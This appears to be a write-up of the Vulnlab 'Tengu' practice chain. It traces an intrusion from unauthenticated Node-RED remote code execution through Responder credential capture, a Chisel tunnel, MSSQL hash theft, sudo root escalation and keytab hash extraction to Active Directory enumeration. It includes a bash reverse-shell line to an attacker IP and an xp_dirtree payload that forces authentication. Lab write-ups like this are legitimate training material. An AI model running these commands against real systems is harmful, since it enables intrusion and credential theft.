



## Summary

The chain stars with `foothold` on the `beachhead` aka `nodered.tengu.vl` through a `Node-RED` instance by using a already available `Proof of Concept` exploit. From there a simple `reverse shell` payloads grants a better reverse shell and also access through `SSH` as the user `nodered_svc`. Since this is a `dead end` at this early point, credentials of the user `nodered_connector` can be gathered by `relaying` the `authentication` from the `Node-RED dashboard` to the attacker machine. The credentials give access to a `MSSQL database` which can be accessed using `port forwarding` through `Chisel`. After accessing the database the hash of the user `t2_m.winters` can be found. By throwing it into `crackstation.net` cracking can be avoided since the hash `already got cracked` and the `password` is `available` in their database. Using the credentials of `t2_m.winters` on the `beachhead` for privilege escalation and grant since the user has `(ALL : ALL) ALL` permissions using `sudo` this is also the step for `privilege escalation` to `root` on the box. The first flag can be found inside `/root`. From there on the content of a `krb5.keytab` file needs to be extracted using `KeyTabExtract`. The file contains a `NTLM` hash of `NODERED$`. By using the credentials of `t2_m.winters` the configuration of the `Active Directory` can be dumped using `BloodHound`. Digging through the output shows the `NDOERED$` is part of the `LINUX_SERVERS@TENGU.VL` group which has the permission of `ReadGMSAPassword` of `GMSA01$`. Reading the `Group Managed Service Accounts` passwords provides the `NTLM` hash of `GMSA01$` which has the permissions `AllowedToDelegate` set onto `SQL.TENGU.VL`. One of the members of this group is the user `t1_m.winters`. By abusing the `AllowedToDelegate` permissions it is possible to `impersonate` the user `t1_m.winters` and get a `Kerberos ticket` for his account. With the ticket authentication on the `MSSQL instance` of `SQL.tengu.vl` is possible and also to login as `sa`. Using the `sa` session gives the permission to enable `xp_cmdshell` and achieve `code execution` to get an actual `shell` on the machine as `gmsa01$`. The user has the `SeImpersonatePrivilege` enabled which can be abused by using `GodPotato` for example to `privilege escalate` to `NT AUTHORITY\SYSTEM`. The second flag can be found inside `C:\Users\Administrator\Desktop\`. After dumping the hashes using `hashdump` or `mimikatz`, the `hash` of `Administrator` is used to dump the content of the `Data Protection API (DPAPI)` and to get the password of `T0_c.fowler` which is member of the `DOMAIN ADMINS@TENGU.VL` group. This grants access to `dc.tengu.vl` and to the last flag.

## Table of Contents

- [Reconnaissance](#reconnaissance)
  - [Provided Ports](#provided-ports)
  - [10.10.186.229](#1010186229)
  - [10.10.186.230](#1010186230)
  - [10.10.186.231](#1010186231)
- [Foothold](#foothold)
  - [Beachhead 10.10.186.231](#beachhead-1010186231)
  - [Improving our Reverse Shell](#improving-our-reverse-shell)
  - [Stabilizing Shell](#stabilizing-shell)
- [Enumeration](#enumeration)
- [Credential Harvesting: Man-in-the-Middle by Authentication Relaying](#credential-harvesting-man-in-the-middle-by-authentication-relaying)
- [Database Access](#database-access)
  - [Forwarding Traffic](#forwarding-traffic)
- [Database Enumeration](#database-enumeration)
- [Cracking the Hash](#cracking-the-hash)
- [Privilege Escalation to t2_m.winters](#privilege-escalation-to-t2_mwinters)
- [Pivoting nodered.tengu.vl](#pivoting-noderedtenguvl)
- [Privilege Escalation to root](#privilege-escalation-to-root)
- [root.txt (Tengu_User-1)](#roottxt-tengu_user-1)
- [Extracting Keys from keytab file](#extracting-keys-from-keytab-file)
- [Active Directory Enumeration](#active-directory-enumeration)
- [Dumping gMSA Passwords](#dumping-gmsa-passwords)
- [Impersonation through Delegation](#impersonation-through-delegation)
- [Code Execution through MSSQL](#code-execution-through-mssql)
- [Pivoting SQL.tengu.vl](#pivoting-sqltenguvl)
- [Privilege Escalation to SYSTEM](#privilege-escalation-to-system)
- [root.txt (Tengu_User-2)](#roottxt-tengu_user-2)
- [Post Exploitation on SQL.tengu.vl](#post-exploitation-on-sqltenguvl)
- [Dumping Data Protection API (DPAPI)](#dumping-data-protection-api-dpapi)
- [Privilege Escalation](#privilege-escalation)
- [root.txt (Tengu_Root)](#roottxt-tengu_root)

## Reconnaissance

### Provided Ports

As always we started with the ports provided by `xct` in the `Vulnlab Wiki`.

- [https://wiki.vulnlab.com/guidance/medium/tengu-chain](https://wiki.vulnlab.com/guidance/medium/tengu-chain)

```c
Machine 0x1
PORT     STATE SERVICE
3389/tcp   open  domain

Machine 0x2
PORT     STATE SERVICE
3389/tcp   open  domain

Machine 0x3
PORT     STATE SERVICE
3389/tcp   open  domain
1880/tcp   open  vsat-control
```

Since this was a `chain` we manually scanned the provided `IPs` to see if we can get some useful information like `commonName` in addition.

### 10.10.186.229

#### Port Scanning

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.10.186.229
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-28 15:13 EDT
Nmap scan report for dc.tengu.vl (10.10.186.229)
Host is up (0.0079s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.tengu.vl
| Not valid before: 2024-03-10T13:32:17
|_Not valid after:  2024-09-09T13:32:17
|_ssl-date: 2024-03-28T19:13:34+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TENGU
|   NetBIOS_Domain_Name: TENGU
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: tengu.vl
|   DNS_Computer_Name: DC.tengu.vl
|   DNS_Tree_Name: tengu.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-03-28T19:13:29+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.13 seconds
```

### 10.10.186.230

#### Port Scanning

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.10.186.230
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-28 15:14 EDT
Nmap scan report for 10.10.186.230
Host is up (0.011s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=SQL.tengu.vl
| Not valid before: 2024-03-24T13:19:50
|_Not valid after:  2024-09-23T13:19:50
|_ssl-date: 2024-03-28T19:14:22+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TENGU
|   NetBIOS_Domain_Name: TENGU
|   NetBIOS_Computer_Name: SQL
|   DNS_Domain_Name: tengu.vl
|   DNS_Computer_Name: SQL.tengu.vl
|   DNS_Tree_Name: tengu.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-03-28T19:14:17+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.28 seconds
```

### 10.10.186.231

#### Port Scanning

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.10.186.231
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-28 15:17 EDT
Nmap scan report for 10.10.186.231
Host is up (0.0089s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:a2:62:65:84:f4:ec:5b:a8:a8:a3:8f:83:a3:96:27 (ECDSA)
|_  256 41:c7:d4:28:ec:d8:5b:aa:97:ee:c0:be:3c:e3:aa:73 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.09 seconds
```

According to the output of our `Nmap` scans, we updated our `/etc/hosts` file and added `dc.tengu.vl`, `SQL.tengu.vl` and `nodered.tengu.vl`.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.186.229   dc.tengu.vl
10.10.186.230   SQL.tengu.vl
10.10.186.231   nodered.tengu.vl
```

## Foothold

### Beachhead 10.10.186.231

The `nodered.tengu.vl` was the only viable option to start with the chain and head for `initial access` aka `Beachhead`.

#### Enumeration of Port 1880/TCP

On port `1880/TCP` we found a `Node-RED` instance running without any `authentication`.

- [http://10.10.186.231:1880/](http://10.10.186.231:1880/)


We found the following `ready-to-fire` script for achieving `Remote Code Execution (RCE)` on the `Node-RED` application.

- [https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py](https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py)

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ python3 noderedsh.py http://10.10.186.231:1880
[+] Node-RED does not require authentication.
[+] Establishing RCE link ....
>
```

### Improving our Reverse Shell

Since the shell created by the script did not contain all command we wanted, we fired up a basic `reverse shell payload` from our favourite site.

- [https://www.revshells.com/](https://www.revshells.com/)

```c
> /bin/bash -i >& /dev/tcp/10.8.0.2/9001 0>&1
{"class":{"__enc__":true,"type":"undefined"},"code":"ETIMEOUT","lineNumber":{"__enc__":true,"type":"undefined"},"message":"Failed to connect to sql.tengu.vl:1433 in 15000ms","details":"Failed to connect to sql.tengu.vl:1433 in 15000ms","name":"ConnectionError","number":{"__enc__":true,"type":"undefined"},"procName":{"__enc__":true,"type":"undefined"},"serverName":{"__enc__":true,"type":"undefined"},"state":{"__enc__":true,"type":"undefined"},"toString":{"__enc__":true,"type":"function"}}
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.186.231] 52754
bash: cannot set terminal process group (429): Inappropriate ioctl for device
bash: no job control in this shell
nodered_svc@nodered:/opt/nodered$
```

### Stabilizing Shell

We performed our usual steps to `stabilize` our `reverse shell` and added our `SSH Key` for future use like `SSH Port Forwarding`.

```c
nodered_svc@nodered:/opt/nodered$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<red$ python3 -c 'import pty;pty.spawn("/bin/bash")'
nodered_svc@nodered:/opt/nodered$ ^Z
zsh: suspended  nc -lnvp 9001


┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

nodered_svc@nodered:/opt/nodered$ 
nodered_svc@nodered:/opt/nodered$ export XTERM=xterm
nodered_svc@nodered:/opt/nodered$
```

```c
nodered_svc@nodered:~/.ssh$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDAiZ0B>
<--- CUT FOR BREVITY --->
<itfPwHWkNTqdZzOfMIAfYIuwwZkxp6Ha8S2xNrpf0hHYM5syQ==' > authorized_keys
```

```c
┌──(kali㉿kali)-[~]
└─$ ssh nodered_svc@10.10.186.231
The authenticity of host '10.10.186.231 (10.10.186.231)' can't be established.
ED25519 key fingerprint is SHA256:0PvZ2achH9c0Mm2fh69M6jkRYLkDH1KytZ1pXDpGC/Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.186.231' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-97-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

nodered_svc@nodered:~$
```

## Enumeration

Now we started with basic enumeration in the context of the user `nodered_svc`.

```c
nodered_svc@nodered:/opt/nodered$ id
uid=1001(nodered_svc) gid=1001(nodered_svc) groups=1001(nodered_svc)
```

```c
nodered_svc@nodered:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:113:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:116::/run/uuidd:/usr/sbin/nologin
systemd-oom:x:108:117:systemd Userspace OOM Killer,,,:/run/systemd:/usr/sbin/nologin
tcpdump:x:109:118::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
avahi:x:114:121:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:115:122:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
rtkit:x:116:123:RealtimeKit,,,:/proc:/usr/sbin/nologin
whoopsie:x:117:124::/nonexistent:/bin/false
sssd:x:118:125:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
speech-dispatcher:x:119:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
fwupd-refresh:x:120:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
nm-openvpn:x:121:127:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
saned:x:122:129::/var/lib/saned:/usr/sbin/nologin
colord:x:123:130:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:124:131::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:125:132:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:126:65534::/run/gnome-initial-setup/:/bin/false
hplip:x:127:7:HPLIP system user,,,:/run/hplip:/bin/false
gdm:x:128:134:Gnome Display Manager:/var/lib/gdm3:/bin/false
labadmin:x:1000:1000:labadmin,,,:/home/labadmin:/bin/bash
nodered_svc:x:1001:1001:,,,:/home/nodered_svc:/bin/bash
sshd:x:129:65534::/run/sshd:/usr/sbin/nologin
```

We found one more user on the system.

| Username |
| -------- |
| REDACTED |

## Credential Harvesting: Man-in-the-Middle by Authentication Relaying

Since we faced a `dead end` with the initial access machine, we went back to the `dashboard` of the `Node-RED` application and started investigating further.

By editing the `SQL object` in the already given `Flow chart` we entered our payload using `xp_dirtree` pointed to out local machine to grab potential credentials.


```c
xp_dirtree '\\10.8.0.2\foobar\';
```

We clicked on `Deploy` and got a hit on `Responder` which we spun up before.

```c
┌──(kali㉿kali)-[~]
└─$ sudo responder -I tun0

  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.8.0.2]
    Responder IPv6             [fe80::95ff:fec0:501c:7e92]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-QUK0AQKBHPY]
    Responder Domain Name      [92JP.LOCAL]
    Responder DCE-RPC Port     [48590]

[+] Listening for events...                                                                                                                                                                                                                 

[SMB] NTLMv2-SSP Client   : 10.10.186.230
[SMB] NTLMv2-SSP Username : TENGU\gMSA01$
[SMB] NTLMv2-SSP Hash     : gMSA01$::TENGU:REDACTED
```

Since this was a `Group Managed Service Accounts (gMSA)` protected hash we considered not trying to crack it. Instead we edited the `MSSQL-CN note` configuration and pointed the `Server` value to our local machine.

- [https://aadinternals.com/post/gmsa/](https://aadinternals.com/post/gmsa/)


This time we gathered the `plaintext credentials` of a user called `nodered_connector`.

```c
[MSSQL] Cleartext Client   : 10.10.186.231
[MSSQL] Cleartext Hostname : 10.8.0.2 (Dev)
[MSSQL] Cleartext Username : nodered_connector
[MSSQL] Cleartext Password : REDACTED
```

| Username          | Password            |
| ----------------- | ------------------- |
| nodered_connector | REDACTED            |

## Database Access

Those credentials gave us the hint to aim for the `SQL.tengu.vl` machine next.

### Forwarding Traffic

We set up `traffic forwarding` using `Chisel` on the `beachhead`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/serve]
└─$ ./chisel server -p 9002 -reverse -v
2024/03/28 14:48:09 server: Reverse tunnelling enabled
2024/03/28 14:48:09 server: Fingerprint b5dbtA951ZqZiU/SMRE6rVwwlf5owCcmA/T1GycWMv0=
2024/03/28 14:48:09 server: Listening on http://0.0.0.0:9002
```

```c
nodered_svc@nodered:/dev/shm$ ./chisel client 10.8.0.2:9002 R:socks
2024/03/28 19:49:01 client: Connecting to ws://10.8.0.2:9002
2024/03/28 19:49:01 client: Connected (Latency 7.498789ms)
```

Then we tested the connection to the `MSSQL database` using `Netexec`.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec mssql 10.10.186.230 -u 'nodered_connector' -p 'REDACTED' --local-auth -q "SELECT @@Version"
MSSQL       10.10.186.230   1433   SQL              [*] Windows 10.0 Build 20348 (name:SQL) (domain:SQL)
MSSQL       10.10.186.230   1433   SQL              [+] nodered_connector:REDACTED 
MSSQL       10.10.186.230   1433   SQL              Microsoft SQL Server 2022 (RTM) - 16.0.1000.6 (X64) 
    Oct  8 2022 05:58:25 
    Copyright (C) 2022 Microsoft Corporation
    Developer Edition (64-bit) on Windows Server 2022 Standard 10.0 <X64> (Build 20348: ) (Hypervisor)
```

## Database Enumeration

By using `impacket-mssqlcielt` we accessed the `database` on `SQL.tengu.vl` and started enumerating it.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q impacket-mssqlclient nodered_connector:''REDACTED''@SQL.tengu.vl 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: Dev
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL): Line 1: Changed database context to 'Dev'.
[*] INFO(SQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (nodered_connector  nodered_connector@Dev)>
```

```c
SQL (nodered_connector  nodered_connector@Dev)> SELECT name FROM sys.databases;
name     
------   
master   

tempdb   

model    

msdb     

Demo     

Dev
```

```c
SQL (nodered_connector  nodered_connector@Dev)> SELECT table_name from Dev.INFORMATION_SCHEMA.TABLES;
table_name   
----------   
Task
```

```c
SQL (nodered_connector  nodered_connector@Dev)> SELECT table_name from Demo.INFORMATION_SCHEMA.TABLES;
table_name   
----------   
Users
```

We found the `hash` of a user called `t2_m.winters`.

```c
SQL (nodered_connector  nodered_connector@Dev)> SELECT * from [Demo].[dbo].Users;
  ID   Username          Password                                                              
----   ---------------   -------------------------------------------------------------------   
NULL   b't2_m.winters'   b'REDACTED'
```

## Cracking the Hash

Instead of attempting to crack the hash by ourselves, we checked `crackstation.net` if the hash was already cracked and got lucky.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ cat t2_m.winters_hash 
REDACTED
```

- [https://crackstation.net/](https://crackstation.net/)

| Username     | Password |
| ------------ | -------- |
| t2_m.winters | REDACTED |

## Privilege Escalation to t2_m.winters

With the newly found credentials we `elevated our privileges` on the `beachead`.

| Username              | Password |
| --------------------- | -------- |
| t2_m.winters@tengu.vl | REDACTED |

```c
nodered_svc@nodered:~$ su t2_m.winters@tengu.vl
Password: 
t2_m.winters@tengu.vl@nodered:/home/nodered_svc$
```

## Pivoting nodered.tengu.vl

As always we started with some `basic enumeration` and found that `t2_m.winters` was part of the `linux_server_admins@tengu.vl` group.

```c
t2_m.winters@tengu.vl@nodered:~$ id
uid=1317801117(t2_m.winters@tengu.vl) gid=1317800513(domain users@tengu.vl) groups=1317800513(domain users@tengu.vl),1317801115(linux_server_admins@tengu.vl)
```

## Privilege Escalation to root

He also had permissions to execute `(ALL : ALL) ALL` with `sudo` which gave provided us `privilege escalation` to `root` and also the `first flag (Tengu_User-1)`.

```c
t2_m.winters@tengu.vl@nodered:~$ sudo -l
Matching Defaults entries for t2_m.winters@tengu.vl on nodered:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User t2_m.winters@tengu.vl may run the following commands on nodered:
    (ALL : ALL) ALL
```

```c
t2_m.winters@tengu.vl@nodered:~$ sudo su
root@nodered:/home/tengu.vl/t2_m.winters#
```

## root.txt (Tengu_User-1)

```c
root@nodered:~# cat root.txt
VL{REDACTED}
```

## Extracting Keys from keytab file

Now that we are gained `root` on `nodered.tengu.vl` we found a `krb5.keytab` file and used `KeyTabExtract` to extract the `NTLM` hash of `NODERED$`.

- [https://github.com/sosdave/KeyTabExtract](https://github.com/sosdave/KeyTabExtract)

```c
root@nodered:/dev/shm# python3 keytabextract.py /etc/krb5.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : TENGU.VL
        SERVICE PRINCIPAL : NODERED$/
        NTLM HASH : REDACTED
        AES-256 HASH : REDACTED
        AES-128 HASH : REDACTED
```

## Active Directory Enumeration

The extracted `hash` of `NODERED$` gave us the capability to enumerate the `Active Directory` configuration of `dc.tengu.vl`. We used `Netexec` with the `--users` option to get a list of available users. Alternatively we could had gone for `RID Brute Forcing`.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec ldap 'dc.tengu.vl' -u 'NODERED$' -H 'REDACTED' --users
SMB         10.10.186.229   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
LDAP        10.10.186.229   389    DC               [+] tengu.vl\NODERED$:REDACTED 
LDAP        10.10.186.229   389    DC               [*] Total of records returned 213
LDAP        10.10.186.229   389    DC               Administrator                  Built-in account for administering the computer/domain
LDAP        10.10.186.229   389    DC               Guest                          Built-in account for guest access to the computer/domain
LDAP        10.10.186.229   389    DC               krbtgt                         Key Distribution Center Service Account
LDAP        10.10.186.229   389    DC               c.fowler                     
LDAP        10.10.186.229   389    DC               t2_c.fowler                  
LDAP        10.10.186.229   389    DC               t1_c.fowler                  
LDAP        10.10.186.229   389    DC               t0_c.fowler                  
LDAP        10.10.186.229   389    DC               m.winters                    
LDAP        10.10.186.229   389    DC               t2_m.winters                 
LDAP        10.10.186.229   389    DC               t1_m.winters                 
<--- CUT FOR BREVITY --->
LDAP        10.10.186.229   389    DC               Hayley.Weston                
LDAP        10.10.186.229   389    DC               Catherine.Chapman            
LDAP        10.10.186.229   389    DC               Howard.Johnson
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ cat usernames.txt 
c.fowler                       
t2_c.fowler                    
t1_c.fowler                    
t0_c.fowler                    
m.winters                      
t2_m.winters                   
t1_m.winters                   
<--- CUT FOR BREVITY --->
Lynne.Marshall                 
Nicole.Price                   
Brandon.Gibson
```

